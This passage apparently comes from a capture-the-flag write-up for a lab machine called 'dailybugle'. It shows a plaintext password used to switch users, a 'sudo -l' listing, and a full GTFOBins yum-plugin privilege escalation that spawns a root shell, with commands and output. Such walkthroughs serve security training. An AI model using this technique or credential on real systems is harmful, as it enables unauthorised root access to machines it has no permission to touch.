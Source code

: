 ```
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
whoami
jjameson
```

It worked. We successfully changed to the user ```jjameson```.

Now, let's see what binaries can be run using sudo.

```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

The user ```jjameson``` can run the binary ```yum``` with root privileges.

Navigate to GTFO bins.

>https://gtfobins.github.io/gtfobins/yum/#sudo

We can spawn an interactive root shell by loading a custom plugin as follows.

```
id    
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
whoami
jjameson
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```